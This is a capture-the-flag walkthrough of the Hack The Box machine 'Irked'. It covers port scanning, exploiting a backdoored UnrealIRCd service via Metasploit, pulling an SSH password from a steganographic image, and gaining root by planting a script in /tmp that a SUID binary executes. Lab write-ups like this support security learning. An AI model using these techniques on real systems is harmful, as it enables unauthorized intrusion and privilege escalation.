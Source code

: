 # Irked

__URL__: https://www.hackthebox.eu/home/machines/profile/163

__Machine IP__: 10.10.10.117

__DATE__ : 10/04/2019

-------------------------------------------------------------------------------

Let's start with the basics

`NMAP` - Full port scan
------------------------

```bash
➜ nmap -p- 10.10.10.117
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-21 15:16 IST
Nmap scan report for 10.10.10.117
Host is up (0.16s latency).
Not shown: 65505 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
111/tcp   open     rpcbind
4027/tcp  filtered bxp
6324/tcp  filtered hrd-ncs
6697/tcp  open     ircs-u
7852/tcp  filtered unknown
8067/tcp  open     infi-async
8218/tcp  filtered unknown
8901/tcp  filtered jmb-cds2
33435/tcp filtered mtrace
55801/tcp open     unknown
65534/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 2713.11 seconds
```

Okay so as usual we can see the port 22 and 80 are open. But what looked interesting was `ircs-u` i.e port `6697`.

**Why this is interesting?**

Because we can try to connect with the IRC and maybe even try to exploit that.

-------------------------------------------------------------------------------

Let's test whether there is something fishy with the IRC service:

```bash
➜ nmap -sV --script=irc-unrealircd-backdoor 10.10.10.117 -p 6697
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-21 20:20 IST
Nmap scan report for 10.10.10.117
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
6697/tcp open  irc     UnrealIRCd
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
Service Info: Host: irked.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.28 seconds
```

hmmm....trojaned version of IRC meaning someone has messed with it... Let's fire up the big gun

So we use metasploit to exploit this CVE:

![alt text](images/irked-1.png)

All the options are set Now, :boom: `EXPLOIT` :boom:

![alt text](images/irked-2.png)

After Getting reverse shell I spawn the TTY shell using python:
```python
python -c 'import pty; pty.spawn("/bin/sh")'
```
I spent sometime looking around and found a user called `djmardov` and found out that there's a backup file in the `Document` folder.

```bash
$ cat /home/djmardov/Documents/.backup
cat /home/djmardov/Documents/.backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
hmm... :thinking_face:

After lot of messing around, reading forum comments and what not I figured out why it was referring to Stego.
Basically If you visit the website(http://10.10.10.117/) we are prompted with the following page:

![alt text](images/homepage.png)

I asked myself a question `what if this yellow image has something to do with Stego?` So why not test this with something like steghide.

```bash
➜ steghide extract -sf irked.jpg
Enter passphrase:
wrote extracted data to "pass.txt".
```

Wooh!!! :tada:

------------------------------------------------------------------------------

I got `pass.txt` using `UPupDOWNdownLRlrBAbaSSss` as steghide password

```bash
➜ cat pass.txt
Kab6h+m+bbp2J:HG
```

Use this password to login into the `djmardov's` account via `SSH`

![alt text](images/ssh-in.png)

Now just find the **`user.txt`**  in the `Documents` folder

```bash
djmardov@irked:~$ cat ./Documents/user.txt
4a66a78b12dc0e661a59d3f5c0267a8e
```

Priv escalation
--------------------------------------------------------------------

Now let's run `LinEnum` file to see if we can find something interesting.
I got something interesting in SUIDs

![alt text](images/suid.png)

The `viewuser` command looks interesting.Executing the viewuser command I got the following output:

![alt text](images/viewuser.png)

Notice the last line
```
sh: 1: /tmp/listusers: not found
```

So basically the `viewuser` command is showing all the users and then it's trying to execute the `listusers` file in the `/tmp` directory.

Let's go and make a file and see with what privileges it's executing that file(it should be `root` because the `viewuser` SUID is under root)

```bash
#!/bin/bash
whoami
```
Now execute the `viewuser` command again and BOOM!!! :tada:

![alt text](images/whoami.png)

This mean we can execute any command as a `root`, so simply put the following line in the file:

```bash
#!/bin/bash

cat /root/root.txt
```

![alt text](images/root.png)

